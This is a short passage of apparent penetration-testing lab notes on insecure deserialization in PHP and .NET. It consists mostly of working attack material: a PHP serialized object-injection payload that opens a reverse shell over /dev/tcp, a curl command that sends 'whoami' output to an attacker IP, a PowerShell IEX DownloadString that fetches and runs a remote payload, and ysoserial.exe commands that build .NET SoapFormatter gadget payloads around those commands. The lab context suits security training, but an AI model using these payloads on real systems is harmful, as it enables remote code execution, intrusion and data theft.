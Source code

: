 ```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:68:"system('/bin/bash -c \'sh -i >& /dev/tcp/192.151.24.2/4242 0>&1\'');";}
```

because the serialized payload contains characters like `/` and `&` which are treated specially by the web browser and the server, the payload will not work.

To avoid that, we will encode the serialized payload in URL encode.

![](./assets/30.png)





----

### Lab4: .NET Insecure Deserialization

```
demo.ine.local   10.4.23.128

my: 10.10.39.2
$c=whoami;curl http://10.10.39.2:445/$c
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.39.2:445/payload.txt')"

ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c [command]" -o raw


ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ping 10.10.39.2" -o raw

ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "powershell -exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.39.2:445/payload.txt')\"" -o raw
```
